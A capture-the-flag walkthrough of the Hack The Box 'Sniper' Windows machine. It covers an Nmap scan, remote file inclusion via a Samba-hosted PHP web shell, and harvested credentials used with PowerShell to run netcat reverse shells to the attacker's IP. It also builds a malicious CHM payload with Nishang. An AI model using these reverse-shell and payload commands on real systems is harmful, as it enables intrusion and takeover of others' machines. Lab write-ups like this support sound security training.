
NMAP:
As always we will start with Nmap to scan for open ports and services:
# Nmap 7.80 scan initiated Mon Mar 9 17:56:22 2020 as: nmap -sC -sV -p- -oA sniper -v 10.10.10.151
Nmap scan report for 10.10.10.151 (10.10.10.151)
Host is up (0.16s latency).
Not shown: 65530 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
49667/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h01m55s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-03-09T23:08:46
|_ start_date: N/A
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 9 18:07:28 2020 -- 1 IP address (1 host up) scanned in 666.29 seconds
- Let's check HTTP service

- First thing we found is a login page

We tried to register and login but the page shows under construction message

RFI :
- When exploring the website we notice that page which could lead to LFI/RFI

- After many trials and researches I found that article in the Resources that using samba share with RFI So I configured my share as following and add a PHP web shell
  
- Let’s use the web shell to know users of the machine

- When exploring the web files we found that db.php which contain a potential creds

Reverse Powershell :
- Let’s use the web shell to upload Netcat and try to use the creds to gain a reverse Powershell
 
User :
- Let’s try the password with user Chris and use Netcat to gain a reverse shell
icacls "C:\tmp" /grant iusr:F
$user = "SNIPER\\Chris"
$password = "36mEAhz/B8xQ~2VM"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword
Invoke-Command -ComputerName SNIPER -Credential $credential -ScriptBlock { C:\tmp\nc.exe -e powershell.exe 10.10.16.22 5555}
 
And We got User Flag
When exploring the files on the machine we found this massage in Docs folder

Also, We found that indstuctions.chm file in the Downloads folder

I copied the file to samba share and opened it on Windows machine

- and We decided to snipe him :D
Root :
after searching on Web about this file type we found that Nishang PS script to create CHM payload
Out-CHM –Payload "C:\tmp\nc.exe 10.10.16.22 6666 -e powershell.exe" –HHCPath “C:\Program Files (x86)\HTML Help Workshop”

- Let’s copy the payload to the machine over HTTP
Invoke-WebRequest -Uri http://10.10.16.22/doc.chm -OutFile c:\docs\doc.chm


- and we got root flag

Resources:
http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html
https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1